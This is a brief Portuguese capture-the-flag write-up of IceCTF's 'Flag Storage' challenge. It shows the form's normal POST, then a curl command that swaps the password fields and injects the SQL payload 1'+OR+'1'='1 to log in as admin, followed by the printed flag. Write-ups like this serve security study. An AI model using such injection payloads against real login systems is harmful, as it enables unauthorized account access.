 # Flag Storage

SQL Injection basico, porem existia a trick que, não era possivel inserir comandos SQL no post padrão enviado pelo form, havia a necessidade de se inverter os campos para inserir o SQL e então logar como admin

'''POST enviado pelo form'''
```
username=admin&password_plain=admin&password=e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855
```

'''Resolução'''
```
greyhound//deadcow ~/fun/icectf/flagstorage % curl -s -iL flagstorage.vuln.icec.tf/login.php -d "username=admin&password=1'+OR+'1'='1&password_plain=e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855"|grep IceCTF
<h1>Logged in!</h1><p>Your flag is: IceCTF{why_would_you_even_do_anything_client_side}</p>
greyhound//deadcow ~/fun/icectf/flagstorage %
```
